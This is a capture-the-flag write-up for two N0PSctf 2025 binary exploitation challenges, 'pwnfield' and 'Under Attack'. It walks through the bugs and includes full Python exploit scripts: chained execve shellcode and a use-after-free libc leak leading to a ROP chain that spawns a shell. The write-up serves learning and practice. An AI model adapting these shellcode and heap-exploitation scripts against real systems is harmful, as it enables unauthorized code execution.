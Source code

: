 ---
title: '[WRITE UP] - N0PSctf 2025'
description: 'Yet another CTF wrtite up'
image: '../../img/cover_photo_wup_imresizer.png'
date: '2025-06-03'
tags: ['2025', 'PWN', 'WriteUp']
authors: ['kdot']
draft: false
pinned: false
---


## pwnfield

### Challenge Information

<Challenge
    authors={["Xen0s"]}
    points={473}
    solves={27}
    category="pwn"
    description="We discovered that PwnTopia use their secret mine to collect shellcodium, a very rare and powerful resource! We need it too, to be able to defend N0PStopia. However, PwnTopia has put some mines in the way to the shellcodium, but we are lucky PwnTopia left their most powerful tool, a shell , sh on their way out! Can this be a secret message? Can you manage to avoid the mines and use their tool against them?"
    flag="N0PS{0n3_h45_70_jump_0n_7h3_204d_70_pwnt0p1a}"
>
</Challenge>

### Source code analysis

<details id="src">
<summary>Souce code</summary>
<p>

```c title="pwnfield.c"
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

#define MAX_INSTRUCTIONS 32
#define USER_INSTR_SIZE 5
#define MINE_SIZE 12
#define LINE_SIZE (USER_INSTR_SIZE + MINE_SIZE)
#define TOTAL_SIZE (LINE_SIZE * MAX_INSTRUCTIONS) + 1

const uint8_t exit_mine[] = {
    0xB8, 0x3C, 0x00, 0x00, 0x00,
    0xBF, 0x39, 0x05, 0x00, 0x00,
    0x0F, 0x05
};

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    void *mem = mmap(NULL, TOTAL_SIZE, PROT_READ | PROT_WRITE | PROT_EXEC,
                     MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (mem == MAP_FAILED) {
        perror("mmap");
        exit(1);
    }

    uint8_t *p = mem;
    printf("Type 'exit' to stop inputting instructions.\n");
    for (int i = 0; i < MAX_INSTRUCTIONS; i++) {
        printf("Instruction %d/32 (5 bytes mov): ", i + 1);
        fflush(stdout);

        uint8_t buf[USER_INSTR_SIZE];
        ssize_t n = read(0, buf, USER_INSTR_SIZE);
        if (n != USER_INSTR_SIZE) {
            puts("Bad input.");
            exit(1);
        }

        if (strncmp((char *)buf, "exit", 4) == 0) {
            puts("Starting execution!");
            break;
        }

        // Must be mov — opcode B8..BF
        if (buf[0] < 0xB8 || buf[0] > 0xBF) {
            puts("Only mov r32, imm32 allowed.");
            exit(1);
        }

        memcpy(p, buf, USER_INSTR_SIZE);
        p += USER_INSTR_SIZE;

        memcpy(p, exit_mine, MINE_SIZE);
        p += MINE_SIZE;
    }


    printf("Start execution from which instruction? ");
    fflush(stdout);

    char input[32];
    read(0, input, sizeof(input) - 1);
    input[31] = '\0';

    int32_t index = atoi(input);

    // Check if index is within bounds
    if (index < 0) {
        puts("Invalid instruction index.");
        exit(1);
    }

    // Calculate starting address with bounds checking
    void *start = mem + (((int64_t)index * LINE_SIZE) % TOTAL_SIZE);

    puts("Executing...");
    ((void(*)())start)();

    return 0;
}
```
</p>
</details>

This will be a shellcode challenge, but with some restrictions. One of those restrictions is that `exit_mine` will be added after each time we enter our shellcode. And we are only allowed to enter 5 bytes at a time (32 times in total). More notably, in the calculation to execute the shellcode based on the index, our shellcode will be ordered to go 1 byte based on this formula

```c
void *start = mem + (((int64_t)index * LINE_SIZE) % TOTAL_SIZE);
```

That is, if the address of where we write the shellcode is `0x404400`, then when it executes it will execute at `0x404401`. Therefore, our shellcode is always offset by 1 byte and from there it always executes the commands in `exit_mine`

### Exploit

To solve this problem, we can think of using the jump command to jump to each section in our shellcode. Our idea here is to let the program read one more time, and in this next write we will write the real shellcode, that is, execve to drop the shell. So to calculate the offset you want to jump you can try to enter some random instruction that satisfies the condition, then just subtract the address from it:

```sh title="GDB"
pwndbg> tel 0x7158ecb42001
00:0000│ rdx rip 0x7158ecb42001 ◂— pop rsi /* 0x3cb80d755e5e */
01:0008│         0x7158ecb42009 ◂— add byte ptr [rdi + 0x539], bh /* 0x50f00000539bf00 */
02:0010│         0x7158ecb42011 ◂— mov edi, 0xd755e5a /* 0x3cb80d755e5abf */
03:0018│         0x7158ecb42019 ◂— add byte ptr [rax], al /* 0xf00000539bf0000 */
04:0020│         0x7158ecb42021 ◂— add eax, 0x74ff31bf /* 0x3cb80d74ff31bf05 */
05:0028│         0x7158ecb42029 ◂— add byte ptr [rax], al /* 0x539bf000000 */
06:0030│         0x7158ecb42031 ◂— syscall  /* 0xb8e6ff050fbf050f */
07:0038│         0x7158ecb42039 ◂— cmp al, 0 /* 0x539bf0000003c; '<' */
pwndbg> x/i 0x7158ecb42011+0x1
   0x7158ecb42012:      pop    rdx
pwndbg> x/3i 0x7158ecb42001
=> 0x7158ecb42001:      pop    rsi
   0x7158ecb42002:      pop    rsi
   0x7158ecb42003:      jne    0x7158ecb42012
pwndbg> p/x 0x7158ecb42012-0x7158ecb42003
$2 = 0xf
pwndbg> p/d
$3 = 15
```

As we can see our offset will be 0xf which means we will need 15 bytes to hit it, but we can't specify exactly where it will hit the next instruction in the shellcode. So we will just set the offset to `skip` to 13 and add another nop padding of 14 so that when it hits the next instruction in our shellcode, the `nop` will do nothing and thus it will execute the next instruction in the shellcode smoothly.
One more note is that we need to add a conditional byte at the beginning of the shellcode so that when it `+1` it will execute the correct instruction we want.

<details id="exp">
<summary>Exploit</summary>
<p>

```py title="exploit.py" collapse={1-31}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./pwnfield', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
b *main+594
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv)


# ==================== EXPLOIT ====================
p = start()

jmp_not_equal = asm('jne skip; ' + 'nop\n' * 13 + 'skip: nop')[:2]
jmp_equal = asm('je skip; ' + 'nop\n' * 13 + 'skip: nop')[:2]

instructions = []

sc1 = asm('pop rsi; pop rsi;')
instructions.append(b'\xbf' + sc1 + jmp_not_equal)

sc2 = asm('pop rdx; pop rsi;')
instructions.append(b'\xbf' + sc2 + jmp_not_equal)

sc3 = asm('xor edi, edi')
instructions.append(b'\xbf' + sc3 + jmp_equal)

sc4 = asm('syscall; jmp rsi')
instructions.append(b'\xbf' + sc4)


while len(instructions) < 32:
    instructions.append(b'\xbf' + p32(0x0))

# print(instructions)

for i, ins in enumerate(instructions):
    sa(f'Instruction {i+1}/32 (5 bytes mov): '.encode(), ins)

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()

sla(b"instruction? ", b"0")

# pause()

sc5 = asm('''
    xor rax, rax
    mov rbx, 0x68732f6e69622f
    push rbx
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov al, 0x3b
    syscall
''')

sleep(0.2)
sl(sc5)

interactive()
# N0PS{0n3_h45_70_jump_0n_7h3_204d_70_pwnt0p1a}
```

</p>
</details>

## Under Attack

### Challenge Information
<Challenge
    authors={["y3noor"]}
    points={488}
    solves={19}
    category="pwn"
    description="Ladybug Command System FULLY OPERATIONAL."
    flag="N0PS{its_N0pSt0pia's_Pleasure_that_L4dy_bug__is_w3aaker!!!__}"
></Challenge>

### Reverse Engineering

<details id="main">
<summary>main function</summary>
<p>
```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  FILE *stdout; // rdi
  int n3; // ebx
  unsigned int index; // [rsp+Ch] [rbp-88Ch] BYREF
  size_t size; // [rsp+10h] [rbp-888h] BYREF
  __int64 (__fastcall *v8)(); // [rsp+18h] [rbp-880h] BYREF
  char s1[64]; // [rsp+20h] [rbp-878h] BYREF
  _BYTE v10[512]; // [rsp+60h] [rbp-838h] BYREF
  char hex_payload[512]; // [rsp+260h] [rbp-638h] BYREF
  char s[1080]; // [rsp+460h] [rbp-438h] BYREF

  puts("Noopsy Defenses CRUSHED! Ladybug Command System FULLY OPERATIONAL!");
  stdout = ::stdout;
  fflush(::stdout);
  menu(stdout);
  printf("\nNoopsy Land is ours! Your command, Overlord?: ");
  fflush(::stdout);
  while ( fgets(s, 1024, stdin) )
  {
    s[strcspn(s, "\n")] = 0;
    hex_payload[0] = 0;
    v10[0] = 0;
    s1[0] = 0;
    n3 = __isoc99_sscanf(s, "%63s %511s %511s", s1, v10, hex_payload);
    if ( n3 > 0 )
    {
      if ( !strcmp(s1, "unleash_swarm") )
      {
        if ( n3 == 3
          && (unsigned int)__isoc99_sscanf(v10, "%d", &index) == 1
          && (unsigned int)__isoc99_sscanf(hex_payload, "%zu", &size) == 1 )
        {
          unleash_swarm(index, size);
        }
        else
        {
          puts("ERROR: Usage: unleash_swarm <idx> <size>");
        }
      }
      else if ( !strcmp(s1, "corrupt_systems") )
      {
        if ( n3 == 3 && (unsigned int)__isoc99_sscanf(v10, "%d", &index) == 1 )
          corrupt_systems(index, hex_payload);
        else
          puts("ERROR: Usage: corrupt_systems <idx> <hex_payload>");
      }
      else if ( !strcmp(s1, "gather_intel") )
      {
        if ( n3 == 2 && (unsigned int)__isoc99_sscanf(v10, "%d", &index) == 1 )
          gather_intel(index);                  // Leak
        else
          puts("ERROR: Usage: gather_intel <idx>");
      }
      else if ( !strcmp(s1, "retreat_agent") )
      {
        if ( n3 == 2 && (unsigned int)__isoc99_sscanf(v10, "%d", &index) == 1 )
          retreat_agent(index);                 // Free
        else
          puts("ERROR: Usage: retreat_agent <idx>");
      }
      else if ( !strcmp(s1, "seize_airwaves") )
      {
        if ( n3 == 2 && (unsigned int)__isoc99_sscanf(v10, "%llx", &v8) == 1 )
          seize_airwaves(v8);
        else
          puts("ERROR: Usage: seize_airwaves <hex_addr>");
      }
      else if ( !strcmp(s1, "send_echo_pulse") )
      {
        if ( n3 == 1 )
          send_echo_pulse();
        else
          puts("ERROR: Usage: send_echo_pulse");
      }
      else if ( !strcmp(s1, "steal_noopsy_secrets") )
      {
        if ( n3 == 1 )
          steal_noopsy_secrets();
        else
          puts("ERROR: Usage: steal_noopsy_secrets");
      }
      else if ( !strcmp(s1, "initiate_city_takeover") )
      {
        if ( n3 == 2 && (unsigned int)__isoc99_sscanf(v10, "%llx", &v8) == 1 )
        {
          initiate_city_takeover((__int64)v8);
          puts("[SYSTEM] Post-Takeover: Control flow unexpectedly returned.");
        }
        else
        {
          puts("ERROR: Usage: initiate_city_takeover <hex_addr>");
        }
      }
      else
      {
        if ( !strcmp(s1, "vanish_into_shadows") )
        {
          puts("Ladybug Command disengaging. Noopsy Land remains under our shadow.");
          fflush(::stdout);
          break;
        }
        printf("ERROR: Unknown directive from the Overlord: '%s'.\n", s1);
      }
      fflush(::stdout);
      if ( !strcmp(s1, "vanish_into_shadows") )
        continue;
    }
    printf("\nNoopsy Land is ours! Your command, Overlord?: ");
    fflush(::stdout);
  }
  fflush(::stdout);
  return 0LL;
}
```
</p>
</details>

<details id="unleash_swarm">
<summary>unleash_swarm function</summary>
<p>
```c
int __fastcall unleash_swarm(unsigned int n7, size_t nmemb)
{
  void *v2; // rax

  if ( n7 > 7 )
  {
    printf("ERROR: Agent index %d out of designated Noopsy sectors (0-%d).\n", n7, 7);
  }
  else if ( qword_4040E0[n7] )
  {
    printf("ERROR: Agent %d already commands this Noopsy sector.\n", n7);
  }
  else if ( nmemb )
  {
    v2 = calloc(nmemb, 1uLL);
    qword_4040E0[n7] = v2;
    if ( v2 )
    {
      qword_4040A0[n7] = nmemb;
      printf("AGENT_DEPLOYED: %p\n", v2);
    }
    else
    {
      printf("ERROR: Failed to materialize agent %d (strength %zu). Resources stretched thin?\n", n7, nmemb);
    }
  }
  else
  {
    puts("ERROR: Cannot deploy agent of zero strength. Noopsy remnants might resist!");
  }
  return fflush(stdout);
}
```
</p>
</details>

<details id="corrupt_systems">
<summary>corrupt_systems function</summary>
<p>
```c
int __fastcall corrupt_systems(unsigned int n7, const char *s)
{
  const char *s_1; // r15
  size_t n; // rbp
  size_t size_1; // r12
  size_t size; // r14
  char *ptr_1; // r12
  __int64 pn7; // rsi
  const char *inject_msg; // rdi
  char *ptr; // [rsp+0h] [rbp-48h]
  void *dest; // [rsp+8h] [rbp-40h]

  if ( n7 > 7 || (dest = (void *)qword_4040E0[n7]) == 0LL )
  {
    pn7 = n7;
    inject_msg = "ERROR: Agent %d is offline. Cannot inject subversive payload.\n";
    goto LABEL_13;
  }
  s_1 = s;
  n = strlen(s);
  size_1 = n >> 1;
  size = (n >> 1) + 1;
  ptr = (char *)malloc(size);
  if ( !ptr )
  {
    printf("ERROR: Payload buffer corrupted for agent %d.\n", n7);
    return fflush(stdout);
  }
  if ( !n )
  {
LABEL_12:
    memcpy(dest, ptr, n);
    free(ptr);
    pn7 = n7;
    inject_msg = "INJECT_OK: Payload assimilated by agent %d.\n";
LABEL_13:
    printf(inject_msg, pn7);
    return fflush(stdout);
  }
  if ( (n & 1) == 0 )
  {
    n >>= 1;
    if ( size >= size_1 )
    {
      if ( size_1 )
      {
        ptr_1 = ptr;
        while ( (unsigned int)__isoc99_sscanf(s_1, "%2hhx", ptr_1) == 1 )
        {
          s_1 += 2;
          ++ptr_1;
          if ( s_1 == &s[2 * n] )
            goto LABEL_12;
        }
        goto LABEL_11;
      }
      goto LABEL_12;
    }
  }
LABEL_11:
  printf("ERROR: Garbled payload data for agent %d.\n", n7);
  free(ptr);
  return fflush(stdout);
}
```
</p>
</details>

<details id="gather_intel">
<summary>gather_intel function</summary>
<p>
```c
int __fastcall gather_intel(unsigned int n7)
{
  unsigned __int64 n16; // rbp
  unsigned __int64 n16_1; // rbx
  int pn3; // esi

  if ( n7 <= 7 && qword_4040E0[n7] )
  {
    n16 = qword_4040A0[n7];
    if ( n16 )
    {
      if ( n16 > 16 )
        n16 = 16LL;
      n16_1 = 0LL;
      printf("INTEL_DATA: ");
      do
      {
        pn3 = *(unsigned __int8 *)(qword_4040E0[n7] + n16_1++);
        printf("%02x", pn3);
      }
      while ( n16_1 < n16 );
      putchar(10);
    }
    else
    {
      printf("INTEL_EMPTY: Agent %d is dormant.\n", n7);
    }
  }
  else
  {
    printf("ERROR: Agent %d MIA. Cannot retrieve intel.\n", n7);
  }
  return fflush(stdout);
}
```
</p>
</details>

<details id="retreat_agent">
<summary>retreat_agent function</summary>
<p>
```c
int __fastcall retreat_agent(unsigned int n7)
{
  void *ptr; // rdi

  if ( n7 <= 7 && (ptr = (void *)qword_4040E0[n7]) != 0LL )
  {
    free(ptr);                                  // Use-After-Free
    printf("RECALL_OK: Agent %d has withdrawn.\n", n7);
  }
  else
  {
    printf("ERROR: Agent %d already extracted or never deployed.\n", n7);
  }
  return fflush(stdout);
}
```
</p>
</details>

<details id="seize_airwaves">
<summary>seize_airwaves function</summary>
<p>
```c
int __fastcall seize_airwaves(int (*psub_4016B0)())
{
  ::psub_4016B0 = psub_4016B0;
  printf("ANTENNA_OK: Noopsy communication channel %llx is NOW LADYBUG'S VOICE!\n", psub_4016B0);
  return fflush(stdout);
}
```
</p>
</details>

<details id="send_echo_pulse">
<summary>send_echo_pulse function</summary>
<p>
```c
int send_echo_pulse()
{
  if ( psub_4016B0 )
    psub_4016B0();
  else
    puts("ERROR: Ladybug Command Relay offline.");
  return fflush(stdout);
}
```
</p>
</details>

Looking at the above functions, we will see a bug called `Use-After-Free` in the `retreat_agent` function. Besides, the `seize_airwaves` function allows us to pass in an address and execute it in the `send_echo_pulse` function, which allows us to execute any function arbitrarily if we have the libc base, this is not too difficult because we can create chunks with unlimited size, and putting that chunk into unsortedbin and leaking it with `gather_intel` is not too difficult for us.

### Exploit

The tricky part here is that the program uses a non-Ubuntu libc, which means we have to find a `ld` that matches it for it to run, finding `ld` would be a pain if we were to search for it. Luckily we can build docker and get `ld` from it. After some `GPT-fu` techniques I found out that its image is `debian:bookworm` then we just need to use `docker pull debian:bookworm` and the next thing is to get `ld` and patch it into the binary

Back to the challenge above after getting the libc base, I will use it to pass the address of the `gets` function in and call that `gets` function, with the characteristic of reading infinite data, I can create a ROP chain, then let the program execute it when returning

<details id="exp">
<summary>Exploit</summary>
<p>

```py title="exploit.py" collapse={1-41}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./ladybug_app_patched', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
b *0x40170B
b *0x401801
b *0x401897
b *0x401876
b *0x401961
b *0x4019DB
b *0x4017EB
b *0x40188F
b *0x401AD8
b *0x401A17
b *0x401A50
b *0x4013b3
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, aslr=False)

def unleash_swarm(index, size):
    sla(b'Overlord?: ', f'unleash_swarm {index} {size}'.encode())

def corrupt_systems(index, hex_data):
    payload = b'corrupt_systems ' + str(index).encode() + b' ' + hex_data
    sla(b'Overlord?: ', payload)

def gather_intel(index):
    sla(b'Overlord?: ', f'gather_intel {index}'.encode())

def retreat_agent(index):
    sla(b'Overlord?: ', f'retreat_agent {index}'.encode())

def reversed_bytes(data: bytes) -> int:
    if all(32 <= b <= 126 for b in data):
        real_bytes = bytes.fromhex(data.decode())
    else:
        real_bytes = data

    reversed_bytes = real_bytes[::-1]
    return int.from_bytes(reversed_bytes, byteorder='little')

# ==================== EXPLOIT ====================
p = start()

unleash_swarm(0,  1056)
unleash_swarm(1, 1)

ru(b'AGENT_DEPLOYED: ')
heap = hexleak(rl()[:-1]) - 0x16c0
success('heap base @ %#x', heap)

retreat_agent(0)
gather_intel(0)

ru(b'INTEL_DATA: ')
data = rnb(12)

libc.address = reversed_bytes(data) - 0x1d2cc0
success('libc base @ %#x', libc.address)

rop = ROP(libc)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = pop_rdi + 1

payload = flat(
    0,
    ret,
    pop_rdi, next(libc.search(b'/bin/sh\0')),
    libc.sym.sytstem
)

sla(b'Overlord?: ', f'seize_airwaves {hex(libc.sym.gets)}'.encode())

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()

sla(b'Overlord?: ', b'send_echo_pulse')

sl(payload*100)

sla(b'Overlord?: ', b'vanish_into_shadows')

sl(b'cat f*')

interactive()
# N0PS{its_N0pSt0pia's_Pleasure_that_L4dy_bug__is_w3aaker!!!__}
```
</p>
</details>

## What I learned

After this CTF I had the opportunity to work on more constrained shellcode challenges, practicing my ability to write shellcodes depending on the program's conditions. Besides that, flexibly used functions in libc to build ROP chains and drop a shell.

